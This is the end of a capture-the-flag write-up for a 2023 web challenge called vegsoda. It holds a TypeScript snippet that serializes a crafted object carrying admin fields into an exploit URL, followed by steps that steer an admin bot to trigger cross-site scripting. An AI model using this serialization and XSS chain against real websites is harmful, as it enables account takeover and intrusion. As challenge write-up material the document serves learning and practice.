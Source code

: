 ```ts
        "Carrot", // rabbits unite!
        "admin",
        note,
        UUID,
        "admin",
    )
}
let vio = "Vio" + serializer.serialize(stopYouViolatedTheLaw)

console.log(vio)
console.log(serializer.deserialize(vio))

Deno.writeFileSync("payload.txt", new TextEncoder().encode(`https://vegsoda-web.2023.ctfcompetition.com/status?type=Soda&content=${encodeURIComponent(vio)}`))
console.log("Payload written.")
```

...ask the admin bot to navigate to that payload URL...

![9680dba5ac832abf1c1d26f05dbf18d9.png](../../resources/8f74d537a30f48d1b690bc6ae605d39e.png)

...spam create posts to ourselves to force the server-side queue to flush\*...

> \*Note: According to the code in `main.ts`, the server processes all queue requests in batches of at least size 3 every 30 seconds. To be honest, I found this quite annoying while developing the solution to this challenge!

...ask the admin bot to read our XSSSoda&trade; at `https://vegsoda-web.2023.ctfcompetition.com/sodas/e3586424-e765-49c4-8556-57377aed08f3`...
